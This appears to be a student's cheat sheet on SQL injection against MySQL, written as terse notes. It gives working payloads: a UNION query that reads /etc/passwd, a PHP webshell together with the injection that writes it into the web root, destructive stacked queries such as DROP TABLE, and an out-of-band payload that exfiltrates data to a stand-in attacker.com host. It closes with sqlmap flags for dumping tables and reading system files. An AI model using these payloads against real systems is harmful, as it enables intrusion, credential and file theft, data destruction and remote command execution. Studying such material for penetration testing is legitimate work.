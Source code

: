 ```sql
SELECT CURRENT_USER()
SELECT user from mysql.user
```
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

To be able to write files to the back-end server using a MySQL database, we require three things:
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
**PHP Webshells via SQLi**
```php
<?php system($_REQUEST[0]); ?>
```
In a SQLi it may look more like 
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
**SQLMAP**
*And yes, it can crack passwords*
This tool supports all types of SQLi
- `B`: Boolean-based blind
	- `AND 1=1`
- `E`: Error-based
	- `AND GTID_SUBSET(@@version,0)`
- `U`: Union query-based
	- `UNION ALL SELECT 1,@@version,3`
- `S`: Stacked queries
	- `; DROP TABLE users`
- `T`: Time-based blind
	- `AND 1=IF(2>1,SLEEP(5),0)`
- `Q`: Inline queries
	- `SELECT (SELECT @@version) from`
Also, Out-of-Band Injects look like this`LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

![[../../Pasted image 20250515150317.png]]
Then just swap ~~~curl~~~ for sqlmap

To dump a table use the `-dump` flag
Use the `--parse-errors` to debug
Use `-t /tmp/traffic.txt` to write output to a file
Use `-v <n>` to specify verbosity level
Use --proxy to send traffic through a proxy like Burp
Use `--level <1-5>` to extend boundaries
Use `--risk <1-3>` to specify risk/loudness
Use `--schema` to identify the database schema
Use `--search` to look for specific data
Use `-T <string>` for a specific table
Use `--current-user` to identify current DBMS user
Use `--file-read "/etc/passwd"` to read the password file
